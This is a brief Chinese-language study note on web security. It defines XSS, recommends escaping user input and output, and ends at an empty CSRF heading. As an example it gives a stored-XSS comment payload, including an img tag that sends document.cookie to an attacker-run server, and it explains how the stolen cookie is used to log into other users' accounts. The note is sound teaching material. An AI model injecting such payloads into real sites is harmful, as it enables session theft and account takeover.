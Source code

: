 <!--
 * @Date: 2019-11-26 14:47:27
 * @LastEditors: PoloHuang
 * @LastEditTime: 2020-09-16 11:34:38
-->
##安全防范知识点
```js
1.XSS
简单点来说，就是攻击者想尽一切办法将可以执行的代码注入到网页中
解决办法：对于用户的输入应该是永远不信任的。最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
https://blog.csdn.net/m0_37631322/article/details/81346335

实例操作：
一个评论功能，通过提交一条带有script脚本的评论，这条评论可以是<script>alert(1)</script>
这种，如果提交上去了那么每次进入页面的用户都会弹出这个弹窗。也可以插入一张图片<img src="http://127.0.0.1:3000/?content=" +document.cookie> 只要用户进入我们就可以在我们的服务器获取到该用户的用户信息cookie，这样我们通过editthiscookie插件就可以登录别人的帐号了
2.CSRF

```